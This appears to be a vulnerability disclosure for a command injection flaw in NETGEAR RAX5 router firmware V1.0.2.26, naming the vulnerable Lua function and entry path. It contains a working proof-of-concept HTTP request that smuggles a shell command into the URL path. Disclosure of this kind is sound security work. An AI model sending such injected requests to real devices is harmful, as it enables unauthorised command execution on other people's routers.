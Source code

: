 # NETGEAR RAX5 V1.0.2.26 Command Injection (apcli_cancel_wps)

## Product Information

- Device: NETGEAR RAX5
- Firmware Version: V1.0.2.26
- Manufacturer's website information：https://www.netgear.com/
- Firmware download address ：https://www.downloads.netgear.com/files/GDC/RAX5/RAX5_V1.0.2.26_1.zip or https://www.netgear.com/support/download/?model=RAX5

![](./1.png)

## Vulnerability Description

In the `/usr/lib/lua/luci/controller/mtkwifi.lua` file, there is a **command injection vulnerability** in the `apcli_cancel_wps` function via the `ifname` parameter.

![](./2.png)

Entry: `/admin/mtk/wifi/apcli_cancel_wps/arg`

![](./3.png)

## Payload

We can trigger this vulnerability by injecting the `ls%3E111.txt` (ls>111.txt) command using the following payload.

```http
GET /cgi-bin/luci/admin/mtk/wifi/apcli_cancel_wps/;ls%3E111.txt;/dev0/1 HTTP/1.1
Host: 192.168.187.136
Connection: close
Cache-Control: max-age=0
sec-ch-ua: "Google Chrome";v="131", "Chromium";v="131", "Not_A Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: sysauth=2066ce7be48fd3ba36e4135e973cd840
```

![](./4.png)

After the injection, we can verify the result.

![](./5.png)
